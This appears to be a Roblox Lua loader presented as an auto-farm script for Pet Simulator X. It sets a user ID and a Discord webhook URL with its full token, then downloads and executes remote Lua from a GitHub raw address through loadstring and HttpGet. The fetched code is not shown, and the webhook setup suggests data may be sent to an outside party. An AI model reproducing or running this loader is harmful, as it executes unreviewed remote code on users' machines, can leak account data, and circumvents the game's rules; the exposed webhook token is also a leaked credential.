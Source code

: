 _G.UserID = 3219142285
_G.WebHook = "https://discord.com/api/webhooks/1087688417548173383/X-Mma5L2mzVzaAXlShMM_h53LdQBdTm5f9rXFHxD5znpowuRstYs0Uu2jVaviZ1Fi_Dk"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
